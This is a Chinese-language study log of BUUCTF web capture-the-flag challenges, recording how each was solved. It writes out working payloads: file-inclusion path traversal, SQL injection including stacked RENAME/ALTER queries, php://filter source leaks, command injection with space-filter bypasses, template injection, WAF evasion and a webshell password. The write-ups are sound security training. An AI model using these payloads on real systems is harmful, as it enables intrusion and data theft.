# 日程

7:00 起床

7:30 坐在教室

11：00 -> 12：00 上午的交流环节

12:00 去吃饭

14:00 坐在教室

17:30 和我沟通交流一些问题（非正式交流环节）

18:00 吃饭

19:00 坐在教室

19:00 -> 21:30 下午、晚上的交流环节

21:30 -> 22:30 背理论题目

22:30 退场睡觉

目标：BUUCTF, 攻防世界

web每天一页（30个题），先追求速度，后和我交流知识点，确保消化原理和细节（知识体系，操作）

# 20210506(Day1下午半天)

### [HCTF 2018]WarmUp

[参考链接](https://blog.csdn.net/weixin_45784586/article/details/103781685?utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromMachineLearnPai2%7Edefault-10.control&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromMachineLearnPai2%7Edefault-10.control)

[题目原型：phpmyadmin 4.8.1 远程文件包含漏洞（CVE-2018-12613）](https://www.cnblogs.com/leixiao-/p/10265150.html)

首先查看源代码看到`source.php`



接下来直接访问`http://c8373f0d-a305-4547-a05f-cdb4efb7dcf6.node3.buuoj.cn/source.php`

可以看到源代码如下：

```
 <?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }  
?>
```

推测考点应该是文件包含

看到白名单中有`source.php`和`hint.php`

访问`http://c8373f0d-a305-4547-a05f-cdb4efb7dcf6.node3.buuoj.cn/hint.php`

看到

```
flag not here, and flag in ffffllllaaaagggg
```

##### 解法1

解法1： 经过后面的测试，发现本题应该是`?`进行url编码后可作为子层目录，但是BUUCTF上这个题目可以直接使用下面的解法，但是本地无法根据代码复现。

构造payload:

```
?file=source.php?/../../../../ffffllllaaaagggg
```
访问该路径可以目录遍历

2022-6-16

重大注意，这里被闫哥叫着重新测试了下这个解法。该解法对于Linux服务器搭建的环境，完全可以秒题目，不需要编码。很奇怪的问题，对于windows，这个payload是完全不行的。后面本地实验的这段，当时没有测试linux服务器。在这段新写的地方重新说明下linux和win环境不一样。

payload:`http://111.229.10.230/ctf_test/source.php?file=source.php?/../../../../flag`,如下图。这个是闫哥push我拉的一个服务器。



##### 解法2

解法2： 经过本地的测试，发现本题应该就是使用`%253f/../`来进行访问（本地测试访问`%3f/../`是不行的，经过2次以上编码如`http://127.0.0.1/test5.php?file=source.php%25%32%35%33%66/../test4.php`或者`127.0.0.1/test5.php?file=source.php%25253f/../test4.php`都还是不行的）

**注意：问号后必须是`/../`，少个杠都不行**

`?` 经过 urlencode 成为 `%3f` , `%3f`经过再次的url编码成为`%253f`

### 本地实验

#### windows上的测试

flag.txt

```
flag{balabla}
```

test4.php

```
<?php

phpinfo();

# test5 -> source
# test4 -> phpinfo
# source.php
# flag.txt

?>
```

test5.php

```
# 题目中source.php代码，经过一些调试性输出修改代码
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
				print_r("Walk through the no urldecode!");
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
				print_r("Walk through the One urldecode!");
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }
	echo "<br>THis is the file:";
	print_r($_REQUEST['file']);
	echo "<br>";
    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }  
?> 

```

---

#### 本地测试：针对**文件包含是否是包含?的一次url编码可以直接以目录解析**

新建test6.php主要是直接针对test6.php进行文件包含是否是包含?的一次url编码可以直接以目录解析。

test6.php

```
<?php

include "test6.php%3f/../test4.php";

?>
```

如上是可以成功直接访问的



修改为2次编码的文件包含参数：

test6.php

```
<?php

include "test6.php%253f/../test4.php";

?>
```



如果直接上`?`

```
<?php

include "test6.php?../test4.php";

?>
```

或者

```
<?php

include "test6.php?../test4.php";

?>
```

就都不行（注意：问号后必须是`/../`，少个杠都不行）



学到的东西:

```
php函数

mb_substr() 函数返回字符串的一部分

mb_strpos（）反回字符或字符串在另一字符串的所在位置

文件包含的特性：

1. 代码中有`include`, `include_once`, require`, `require_once`这四个函数之一
2. 被包含的文件中有php代码，就会直接解析为php程序，后缀名不限制。

文件包含的考点：

1. 本地文件包含(如：目录穿越)
2. 远程文件包含
3. 伪协议

注意，有些新手不知道浏览器发送含有特殊字符的参数值的时候，会对参数的值中的特殊字符进行URL编码。浏览器会自己进行这个URL编码，中间件收到被url编码的请求后会自动进行一次URL解码。

```

### [极客大挑战 2019]EasySQL

访问该链接，发现构造单引号直接造成报错。

`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1''' at line 1`




直接万能密码访问即可

`http://5a03819a-3fd2-4382-bac5-bae25e0827d7.node3.buuoj.cn/check.php?username=admin%27%20or%20%271%27=%271&password=admin%27%20or%20%271%27=%271`

直观感觉: 黑客风格的网页有点阴暗


### [强网杯 2019]随便注

[参考链接](https://www.cnblogs.com/peri0d/p/12123814.html)

输入测试了两个数字，发现只有数字1





直接输入单引号会直接报错



输入`1'; select xx`会直接看到waf的代码。

`return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`

这里的waf语句是匹配这几个sql语句的关键字，和`.`这个字符，不区分大小写。

接下来要测试堆叠注入。

貌似字符型注入是这么测试出来的？看`<hr>`这个显示不显示？反正输入其他字符我感觉没什么明显特征能判断出来是`字符型注入`：





后面堆叠注入是这么测出来比较合理一些：

`1';show databases;`





得知有如下几个数据库：

1. "hahahah"
2. "ctftraining"
3. "information_schema"
4. "mysql"
5. "performance_schema"
6. "supersqli"
7. "test"

接下来查表

`GET /?inject=1';show tables; HTTP/1.1`



（注：该URL中payload全部都要进行URL编码）

可以得知当前数据库有这么一些表。

1. "hahahah"
2. "1919810931114514"
3. "words"

执行下面的语句：

```?inject=1';show columns from `1919810931114514`;%23```

和

```?inject=1';show columns from `words`;%23```


可以获得下面的这些信息：

```
array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

```

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(10)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(11) "varchar(20)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

因为不能够直接上我们的select等语句，所以此处可以直接该命我们要查的flag的表名和字段名为当前程序查询的表名和字段名。

引用原WP中内容:

```
既然没过滤 alert 和 rename，那就可以把表和列改名。先把 words 改为 words1，再把数字表改为 words，然后把新的 words 表里的 flag 列改为 id ，这样就可以直接查询 flag 了
```

构造payload,注意这个题默认是找`words`这个表，所以得一个步骤就走完下面的payload，否则拆开几步一步一步走会失败的。

```/?inject=1';RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;show columns from words;%23```

最后使用 `/?inject=1' or '1'='1` 访问一下即可获得 flag(为了把所有的值全部都查询出来然后直接看flag字段)





学到的东西：

```
自行在mysql的front中执行下面这个语句：

show columns from hosts;

`show columns from 表名`;

可以显示出来当前这个表的字段的信息。

MySQL 的 show、rename 和 alter 命令

show 可以用于查看当前数据库，当前表，以及表中的字段

rename 用于修改 table 的名称

alter 用于修改表中字段的属性

可以直接执行下面的语句：

重命名表的名字： rename table `aaaa` to `bbbb`;

重命名表的名字(可以指定库的名字)： rename table bigdata.`aaaa` to `bbbb`;

重命名字段的名字： alter table `announcement` change `time` Nnnm char(20);

攻击思路：默认查询 words 表，可以将数字表的名称改成 words，这样就可以 使用 or '1'='1 直接查询 flag 了

```

# 20210507

### [极客大挑战 2019]Havefun

翻一下网页源代码可以看到有注释的PHP代码。当然，这里的flag `Syc{cat_cat_cat_cat}` 并不是真正的flag



```
<!--
        $cat=$_GET['cat'];
        echo $cat;
        if($cat=='dog'){
            echo 'Syc{cat_cat_cat_cat}';
        }
        -->
```

输入get型参数`?cat=dog`就可以直接获取flag



### [SUCTF 2019]EasySQL

[参考WP](https://blog.csdn.net/qq_42158602/article/details/103930598)

输入`1;show tables;`可以看到会输出信息，推断是堆叠注入。


```
Array ( [0] => 1 ) Array ( [0] => Flag ) 
```

输入`1;show databases; `



```
Array ( [0] => 1 ) Array ( [0] => ctf ) Array ( [0] => ctftraining ) Array ( [0] => information_schema ) Array ( [0] => mysql ) Array ( [0] => performance_schema ) Array ( [0] => test ) 
```

由此判断：

表名: `Flag`

库名：`ctf`, `ctftraining`, `information_schema`, `mysql`, `performance_schema`, `test`

据说当时原理泄露了？

```select $_GET['query'] || flag from flag```


#### 非预期解



由于没有过滤，输入`*,1`直接获得一个意外解

#### 预期解

`1;set sql_mode=PIPES_AS_CONCAT;select 1`

输入这个payload确实也是可以直接获得flag的。截图如下：



引用WP原文：

```
在oracle 缺省支持 通过 ‘ || ’ 来实现字符串拼接，但在 mysql 缺省不支持。需要调整 mysql 的sql_mode
模式：pipes_as_concat 来实现oracle 的一些功能
```

#### 本地实验

有个库`web1`，库中有一个表`key`，表中有一个字段`f14g`



模仿题目wp进行查询

```select *,1 || f14g from `key`;```



但是像如下就不行了不知道为什么。

```select 1,* || f14g from `key`;```

```select * || f14g from `key`;```

但是如果只查询```select 1 || f14g from `key`;```还是会直接有回显的



```select 1;set sql_mode=PIPES_AS_CONCAT;select 1 || f14g from `key`;```



后面接着查询了一下sql中`||`的作用

[SQL中“||”的作用](https://blog.csdn.net/yhj198927/article/details/62429489)



看来`||`在sql中是字符串的连接符的作用，不能太想当然的把这个当成一个命令执行中那种**或**这种运算的连接符了。

### [ACTF2020 新生赛]Include

进来就看到一个`tips`的超链接


```http://85a0aaf2-35cf-4cf9-912e-3a380d18af2c.node3.buuoj.cn/?file=flag.php```

看这里的参数，就像给的文件包含漏洞





但凡涉及文件包含的考点，大概率就下面的三个:

1. 本地文件包含
2. 远程文件包含
3. PHP伪协议
4. 反序列化(正常反序列化、phar反序列化)

这里直接使用PHP伪协议:

`http://85a0aaf2-35cf-4cf9-912e-3a380d18af2c.node3.buuoj.cn/?file=php://filter/read=convert.base64-encode/resource=flag.php`

获得原文：

```
PD9waHAKZWNobyAiQ2FuIHlvdSBmaW5kIG91dCB0aGUgZmxhZz8iOwovL2ZsYWd7ZTUzM2JhYjctZDEwMy00NzI2LWE2MmQtMDM1YWUyMzAzYmE1fQo=
```


获得base64解码之后的php原文，看到flag

```
<?php
echo "Can you find out the flag?";
//flag{e533bab7-d103-4726-a62d-035ae2303ba5}
```

### [极客大挑战 2019]Secret



看看有什么猫腻，这个题目第一眼望去应该是一个社工题目，但是还是看到了猫腻



`http://c07aa5f3-45b6-44a4-abfa-7ad3b666bfa6.node3.buuoj.cn/Archive_room.php`




在`action.php`这个页面进行拦截可以发现`secr3t.php`这个注释的字符串



访问

`http://c07aa5f3-45b6-44a4-abfa-7ad3b666bfa6.node3.buuoj.cn/secr3t.php`

看到一段源代码

```
<html>
    <title>secret</title>
    <meta charset="UTF-8">
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
</html>
```

虽然正则表达式过滤检测一些字段，但是仍然可以构造payload如下：

`secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php`



出现base64编码的内容如下

```
PCFET0NUWVBFIGh0bWw+Cgo8aHRtbD4KCiAgICA8aGVhZD4KICAgICAgICA8bWV0YSBjaGFyc2V0PSJ1dGYtOCI+CiAgICAgICAgPHRpdGxlPkZMQUc8L3RpdGxlPgogICAgPC9oZWFkPgoKICAgIDxib2R5IHN0eWxlPSJiYWNrZ3JvdW5kLWNvbG9yOmJsYWNrOyI+PGJyPjxicj48YnI+PGJyPjxicj48YnI+CiAgICAgICAgCiAgICAgICAgPGgxIHN0eWxlPSJmb250LWZhbWlseTp2ZXJkYW5hO2NvbG9yOnJlZDt0ZXh0LWFsaWduOmNlbnRlcjsiPuWViuWTiO+8geS9oOaJvuWIsOaIkeS6hu+8geWPr+aYr+S9oOeci+S4jeWIsOaIkVFBUX5+fjwvaDE+PGJyPjxicj48YnI+CiAgICAgICAgCiAgICAgICAgPHAgc3R5bGU9ImZvbnQtZmFtaWx5OmFyaWFsO2NvbG9yOnJlZDtmb250LXNpemU6MjBweDt0ZXh0LWFsaWduOmNlbnRlcjsiPgogICAgICAgICAgICA8P3BocAogICAgICAgICAgICAgICAgZWNobyAi5oiR5bCx5Zyo6L+Z6YeMIjsKICAgICAgICAgICAgICAgICRmbGFnID0gJ2ZsYWd7OWVkNTE2NjEtZmI2Ni00MTE0LWFlODgtYzEyZmMxNjU1ZmQyfSc7CiAgICAgICAgICAgICAgICAkc2VjcmV0ID0gJ2ppQW5nX0x1eXVhbl93NG50c19hX2cxcklmcmkzbmQnCiAgICAgICAgICAgID8+CiAgICAgICAgPC9wPgogICAgPC9ib2R5PgoKPC9odG1sPgo=
```

通过程序直接进行解码：

```
<!DOCTYPE html>

<html>

    <head>
        <meta charset="utf-8">
        <title>FLAG</title>
    </head>

    <body style="background-color:black;"><br><br><br><br><br><br>

        <h1 style="font-family:verdana;color:red;text-align:center;">啊哈！你找到我了！可是你看不到我QAQ~~~</h1><br><br><br>

        <p style="font-family:arial;color:red;font-size:20px;text-align:center;">
            <?php
                echo "我就在这里";
                $flag = 'flag{9ed51661-fb66-4114-ae88-c12fc1655fd2}';
                $secret = 'jiAng_Luyuan_w4nts_a_g1rIfri3nd'
            ?>
        </p>
    </body>

</html>
```

在上面的内容中看到了flag

### [极客大挑战 2019]LoveSQL

[参考链接](https://blog.csdn.net/qq_45521281/article/details/105533626)

这里首行直接写了一个`sqlmap没有灵魂`


首先测试万能密码：

```
用户名：1' or 1=1#
密码：123（随便输）
```



测试注入点是否是字符型:

```
用户名：1' or 1=1'#
密码：123（随便输）
```



看到单引号直接引起了报错

先判断列数

`admin' order by 3;%23&password=123`



`admin' order by 4;%23&password=123`



可以判断出来有3列

接下来输入payload: `213' union select 1,2,3;%23`

`http://0cc63dab-c5f5-4430-b1fd-c429534868e8.node3.buuoj.cn/check.php?username=123%27%20union%20select%201,2,3%23&password=1`

**注意: 踩坑**

这里我在进行`union select`的时候，没有回显出对应的`1,2,3`，因为我访问的是```username=admin%27%20union%20select%201,2,3%23&password=1```而不是```username=123%27%20union%20select%201,2,3%23&password=1```，因为一直有admin，admin也是真实存在的，所以顶着我就看不到1，2，3的定位结果。所以进行sql注入的时候应该默认对真实值进行不存在替换的处理。

接下来构造payload:

`/check.php?username=1' union select 1,database(),version()%23&password=1`



判断出当前数据库是`geek`

```
Hello geek！

Your password is '10.3.18-MariaDB'
```

构造payload进行爆表:

```/check.php?username=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23&password=1```

可以看到有两个表

```
Hello 2！

Your password is 'geekuser,l0ve1ysq1'
```

爆字段

```/check.php?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23&password=1```

爆数据

```/check.php?username=1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1%23&password=1```

网页得到内容如下,看到flag的存在：

```
Hello 2！

Your password is '1cl4ywo_tai_nan_le,2glzjinglzjin_wants_a_girlfriend,3Z4cHAr7zCrbiao_ge_dddd_hm,40xC4m3llinux_chuang_shi_ren,5Ayraina_rua_rain,6Akkoyan_shi_fu_de_mao_bo_he,7fouc5cl4y,8fouc5di_2_kuai_fu_ji,9fouc5di_3_kuai_fu_ji,10fouc5di_4_kuai_fu_ji,11fouc5di_5_kuai_fu_ji,12fouc5di_6_kuai_fu_ji,13fouc5di_7_kuai_fu_ji,14fouc5di_8_kuai_fu_ji,15leixiaoSyc_san_da_hacker,16flagflag{0ea2c93d-b011-49a7-b0ba-23716c1c55e5}'
```

### [ACTF2020 新生赛]Exec

[参考WP](https://blog.csdn.net/weixin_44348894/article/details/105347418)



看图识题，目测是命令执行

ping 127.0.0.1和8.8.8.8都只显示下面的这个结果



没有显示平常四条的TTL、请求时间这些的东西

构造payload

`12 || cat /flag`

**注意**

`127.0.0.1 || cat /flag`  如果这么写可就不对了，因为`||`是`或`运算，前面是一个正确的Ip地址的话会短路后面的`cat /flag`的命令的

获得flag:


### [GXYCTF2019]Ping Ping Ping

[参考WP](https://blog.csdn.net/qq_46184013/article/details/107061110)

直接看标题和页面上的`ip`这种提示，目测是一个命令执行的题目



直接访问开始进行参数测试：

`http://922869a9-019f-4c05-aa3c-fd0621664ab0.node3.buuoj.cn/?ip=127.0.0.1`

输入错误的ip情况会如下:



输入正常ip如`127.0.0.1`或者`8.8.8.8`如下：



构造payload如下：

`?ip=8.8.8.8||ls`



加入空格的情况下会骂我：



利用域分割变量符对空格进行替换:

`?ip=8.8.8.8||cat$IFS$9index.php`



获得代码如下

```
/?ip=
PING 8.8.8.8 (8.8.8.8): 56 data bytes
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}

?>
```

可以看到`flag`.<>.{}都被过滤了。bash也被过滤。

进行一下变量拼接:

`?ip=1;a=g;cat$IFS$1fla$a.php;`

然后直接访问，发现没有flag，其实查看网页源代码就可以看到了





#### 总结

绕过空格的方法：

```
${IFS}  替换
$IFS$1  替换
${IFS   替换
%20     替换
<和<>   重定向符替换
%09     替换
```

### [极客大挑战 2019]Knife

[WP参考](https://blog.csdn.net/qq_45163122/article/details/105899624)

[WP参考2](https://www.cnblogs.com/wangtanzhi/p/12194004.html)



看wp说，是看到这个页面，结合题目的名字叫`knife`来判断当前题目是一个蓄意提前留了一个叫`knife.php`的页面，里面有木马`eval($_POST["Syc"]);`。

个人感觉看到这里wp有点不太现实，感觉这个题目比较浮夸一些。

跟着WP的操作继续下去，反正没有像WP中那个样子，访问knife.php就访问到后门了。

我自己直接把后门地址改成主页，反而直接访问成功了。

可能是这个题目的后门地址确实更改过吧。



后门地址: `http://5c855f9b-3aa6-4987-b809-a86b54df6ab4.node3.buuoj.cn/`
后门连接密码: `Syc`



### [护网杯 2018]easy_tornado

[参考链接](https://blog.csdn.net/qq_43622442/article/details/105450648)

[参考WP2](https://www.cnblogs.com/xhds/p/12285121.html)

看这情况貌似是目录遍历的题目吗？




访问`/flag.txt`

```
/flag.txt
flag in /fllllllllllllag
```

访问`/welcome.txt`

```
/welcome.txt
render
```

访问`/hints.txt`

```
/hints.txt
md5(cookie_secret+md5(filename))
```

注意，点击那些超链接的时候，访问的URL形式一般都是`http://836a304b-f0a4-4ac4-b0b0-cb97dd3d61d9.node3.buuoj.cn/file?filename=/hints.txt&filehash=0df27c607e8b269e1e0bb8a7fe47a635`这个样子

根据题目`Tornado`这个单词提示，查询这个发现这是个python的web框架，目测题目是SSTI（模板注入）

这里截取一下访问flag.txt的URL，访问flag.txt的时候页面提示过`flag in /fllllllllllllag`

`http://836a304b-f0a4-4ac4-b0b0-cb97dd3d61d9.node3.buuoj.cn/file?filename=/flag.txt&filehash=8c046720227b8f21647cf916ca353575`

直接出现报错页面：

`http://836a304b-f0a4-4ac4-b0b0-cb97dd3d61d9.node3.buuoj.cn/error?msg=Error`



发现是报错页面存在模板注入`http://836a304b-f0a4-4ac4-b0b0-cb97dd3d61d9.node3.buuoj.cn/error?msg={{1}}`



访问

`http://836a304b-f0a4-4ac4-b0b0-cb97dd3d61d9.node3.buuoj.cn/error?msg={{handler.settings}}`



出现页面上的内容，根据获得的cookie_secret构造md5(cookie_secret+md5(filename))这样的py或者手动cmd5去加密

```
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '42b6924e-ba9c-4fec-9654-719db6a04f20'}
```

在这里知道了加盐的方式和盐(通过官网，和SSTI注入后得到的secret-cookie)

这里的fileflash的token值是`print(md5(cookie_secret + md5(filename)))`

访问`http://836a304b-f0a4-4ac4-b0b0-cb97dd3d61d9.node3.buuoj.cn/file?filename=/fllllllllllllag&filehash=9bd128619afba102c9c09aa45520279b`



获得页面如下，知晓flag

```
/fllllllllllllag
flag{22392e91-7a8d-4a40-9ba8-2712f9a1899c}
```

### [RoarCTF 2019]Easy Calc

[参考链接](https://blog.csdn.net/weixin_44077544/article/details/102630714)



第一眼看上去像是一个SSTI，目测计算功能本身是个SSTI，然后我可以直接执行一些其他的怪异的代码

但是查看源代码可以看到接口

```

<!DOCTYPE html>
<html><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
  <title>简单的计算器</title>
  
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="./libs/bootstrap.min.css">
  <script src="./libs/jquery-3.3.1.min.js"></script>
  <script src="./libs/bootstrap.min.js"></script>
</head>
<body>

<div class="container text-center" style="margin-top:30px;">
  <h2>表达式</h2>
  <form id="calc">
    <div class="form-group">
      <input type="text" class="form-control" id="content" placeholder="输入计算式" data-com.agilebits.onepassword.user-edited="yes">
    </div>
    <div id="result"><div class="alert alert-success">
            </div></div>
    <button type="submit" class="btn btn-primary">计算</button>
  </form>
</div>
<!--I've set up WAF to ensure security.-->
<script>
    $('#calc').submit(function(){
        $.ajax({
            url:"calc.php?num="+encodeURIComponent($("#content").val()),
            type:'GET',
            success:function(data){
                $("#result").html(`<div class="alert alert-success">
            <strong>答案:</strong>${data}
            </div>`);
            },
            error:function(){
                alert("这啥?算不来!");
            }
        })
        return false;
    })
</script>

</body></html>
```

可以看到```url:"calc.php?num="+encodeURIComponent($("#content").val()),```这个接口是直接暴漏在这里的

访问这个页面可以看到暴漏出来的源代码



```
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

很明显是一个代码注入的题目.



在当前这个页面可以对num传参，传入一些运算表达式

不对num进行处理直接构造payload的话`http://node3.buuoj.cn:26160/calc.php?num=1;var_dump(scandir(chr(47)))`



会发现这个`calc.php`是直接被`Forbidden`

直接进行访问，不对`/`进行处理的话，页面会直接不响应。

`http://node3.buuoj.cn:26160/calc.php?%20num=1;var_dump(scandir(/))`



对payload进行处理，加一个空格的时候：

`http://node3.buuoj.cn:26160/calc.php?%20num=1;var_dump(scandir(chr(47)))`

页面显示内容如下：



```
1array(24) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(10) ".dockerenv" [3]=> string(3) "bin" [4]=> string(4) "boot" [5]=> string(3) "dev" [6]=> string(3) "etc" [7]=> string(5) "f1agg" [8]=> string(4) "home" [9]=> string(3) "lib" [10]=> string(5) "lib64" [11]=> string(5) "media" [12]=> string(3) "mnt" [13]=> string(3) "opt" [14]=> string(4) "proc" [15]=> string(4) "root" [16]=> string(3) "run" [17]=> string(4) "sbin" [18]=> string(3) "srv" [19]=> string(8) "start.sh" [20]=> string(3) "sys" [21]=> string(3) "tmp" [22]=> string(3) "usr" [23]=> string(3) "var" }
```

这个题目是存在waf的，但是这个waf我们看不见，而且貌似不是php进行的处理。之后遇到题目的时候我们就应该意识到waf不一定是能看见的。

注意那不是`/flagg`,那个`l`是数字`1`，构造payload：

`http://node3.buuoj.cn:26160/calc.php?%20num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))`



#### 总结

```
建议还是看WP吧： `https://blog.csdn.net/weixin_44077544/article/details/102630714`


1.1PHP的字符串解析特性
这是别人对PHP字符串解析漏洞的理解，
我们知道PHP将查询字符串（在URL或正文中）转换为内部$_GET或的关联数组$_POST。例如：/?foo=bar变成Array([foo] => “bar”)。值得注意的是，查询字符串在解析的过程中会将某些字符删除或用下划线代替。例如，/?%20news[id%00=42会转换为Array([news_id] => 42)。如果一个IDS/IPS或WAF中有一条规则是当news_id参数的值是一个非数字的值则拦截，那么我们就可以用以下语句绕过：

/news.php?%20news[id%00=42"+AND+1=0–

上述PHP语句的参数%20news[id%00的值将存储到$_GET[“news_id”]中。

HP需要将所有参数转换为有效的变量名，因此在解析查询字符串时，它会做两件事：

1.删除空白符

2.将某些字符转换为下划线（包括空格）


假如waf不允许num变量传递字母：

http://www.xxx.com/index.php?num = aaaa   //显示非法输入的话
1
那么我们可以在num前加个空格：

http://www.xxx.com/index.php? num = aaaa
1
这样waf就找不到num这个变量了，因为现在的变量叫“ num”，而不是“num”。但php在解析的时候，会先把空格给去掉，这样我们的代码还能正常运行，还上传了非法字符。

1.2waf
原来waf我们是看不见的，我一直以为题里的源码，就是waf了。并且，waf并不是说，题目是用php写的，那么waf就一定是用php写的。也正因如此，这题的waf才会无法识别“ num”和“num”其实是一样的。

1.3 scandir()
列出 参数目录 中的文件和目录，要不然我们怎么知道flag在哪。

传递函数: 借鉴`https://cloud.tencent.com/developer/ask/36894`


```

### [极客大挑战 2019]Http

[参考WP](https://blog.csdn.net/qq_45163122/article/details/105905864)



学着WP中看burp里`Target`模块，可以直接看到`Secret.php`这么个php文件名字



页面直接提示如下信息：



```It doesn't come from 'https://www.Sycsecret.com'```

直接看过去，目测应该是考`referer`头部

构造头部如下:

`Referer:https://www.Sycsecret.com`

请求如下

```
GET /Secret.php HTTP/1.1
Host: node3.buuoj.cn:27976
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer:  https://www.Sycsecret.com
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache


```

但是又提示了其他的东西：```Please use "Syclover" browser```



那我就改UA头

```
GET /Secret.php HTTP/1.1
Host: node3.buuoj.cn:27976
User-Agent: Syclover
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer:  https://www.Sycsecret.com
Upgrade-Insecure-Requests: 1


```

又看到这个字符串```No!!! you can only read this locally!!!```



这应该是再加一个XFF头就行了

```
GET /Secret.php HTTP/1.1
Host: node3.buuoj.cn:27976
User-Agent: Syclover
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer:  https://www.Sycsecret.com
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1


```

终于看到flag了:




### [极客大挑战 2019]PHP

[参考链接](https://www.cnblogs.com/kevinbruce656/p/12332736.html)

这个猫挺好看的



首先跑目录



删除了cookie，加载上字典。但是要注意，跑字典的值不要被URL编码，否则会出错。因为现在是在跑路径，路径不需要URL编码。URL编码对传入的参数值进行编码，并不是对其他地方也要进行URL编码。所以，这里的勾勾就不要勾选上。另外，把cookie去掉，因为所有浏览器第一次访问某网站的时候都不会cookie，而且万一cookie中大概会有token验证重放攻击，所以跑目录的时候需要清除一下cookie。



跑目录爆破的时候，在这个题里面把线程调的低一些。不然会出现`429 Too Many Requests`这种的报错。如果遇到这个报错，那就把现场调低就行。



发现`www.zip`,`flag.php`,`index.php`这几个文件



下载下来`www.zip`后进行解压操作

看到`index.php`中有如下代码



经过很简单的`__wakeup`绕过和反序列化漏洞,改一下下面的exp文件

```
<?php
class Name
{
    private $username = 'admin';
    private $password = '100';
